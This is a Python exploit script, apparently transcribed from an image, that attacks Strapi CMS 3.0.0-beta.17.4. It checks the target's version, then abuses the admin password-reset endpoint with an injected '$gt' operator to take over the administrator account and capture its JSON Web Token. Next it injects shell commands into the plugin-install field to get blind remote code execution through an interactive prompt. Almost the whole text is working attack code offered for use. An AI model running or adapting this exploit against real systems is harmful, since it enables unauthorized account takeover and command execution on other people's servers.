 ```python
    print("[*] Usage: python3 exploit.py <URL>\n")
    sys.exit()


class Terminal(Cmd):
    prompt = "$> "
    def default(self, args):
        code_exec(args)

def check_version():
    global url
    print("[+] Checking Strapi CMS Version running")
    version = requests.get(f"{url}/admin/init").text
    version = json.loads(version)
    version = version["data"]["strapiVersion"]
    if version == "3.0.0-beta.17.4":
        print("[+] Seems like the exploit will work!!!\n[+] Executing exploit\n\n")
    else:
        print("[-] Version mismatch trying the exploit anyway")


def password_reset():
    global url, jwt
    session = requests.session()
    params = {"code" : {"$gt":0},
            "password" : "SuperStrongPassword1",
            "passwordConfirmation" : "SuperStrongPassword1"
            }
    output = session.post(f"{url}/admin/auth/reset-password", json = params).text
    response = json.loads(output)
    jwt = response["jwt"]
    username = response["user"]["username"]
    email = response["user"]["email"]

    if "jwt" not in output:
        print("[-] Password reset unsuccessfull\n[-] Exiting now\n\n")
        sys.exit(1)
    else:
        print(f"[+] Password reset was successfully\n[+] Your email is: {email}\n[+] Your new credentials are: {username}:SuperStrongPassword1\n[+] Your authenticated JSON Web Token: {jwt}\n\n")
def code_exec(cmd):
    global jwt, url
    print("[+] Triggering Remote code executin\n[*] Rember this is a blind RCE don't expect to see output")
    headers = {"Authorization" : f"Bearer {jwt}"}
    data = {"plugin" : f"documentation && $({cmd})",
            "port" : "1337"}
    out = requests.post(f"{url}/admin/plugins/install", json = data, headers = headers)
    print(out.text)

if __name__ == ("__main__"):
    url = sys.argv[1]
    if url.endswith("/"):
        url = url[:-1]
    check_version()
    password_reset()
    terminal = Terminal()
    terminal.cmdloop()
```
